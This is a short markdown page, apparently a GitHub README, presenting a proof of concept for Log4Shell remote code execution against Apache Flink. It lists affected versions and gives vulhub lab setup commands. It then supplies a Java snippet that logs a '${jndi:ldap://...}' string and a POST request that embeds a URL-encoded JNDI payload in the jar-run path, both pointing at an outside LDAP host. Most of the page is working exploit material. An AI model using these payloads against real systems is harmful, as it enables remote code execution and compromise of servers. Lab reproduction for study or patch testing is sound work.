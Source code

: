 # Apache Flink log4j RCE

## Version

```
< v1.14.2, < v1.13.5, < v1.12.7, < v1.11.6
```

## vulhub

```
cd vulhub/flink/CVE-2020-17518
docker-compose up -d
```

## upload log4j RCE jar

I've tested it

![](1.png)

click button -- submit

![](2.png)

## Poc

```
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class Test {
    private static final Logger logger = LogManager.getLogger(Test.class);

    public static void main(String[] args) {
        logger.error("${jndi:ldap://flink_test.xxxxxxx}");
    }

}

```

## Other Pocs

```
POST: http://0.0.0.0:8081/jars/${jndi:ldap:%252f%252f0.0.0.0%252f123}.jar/run
```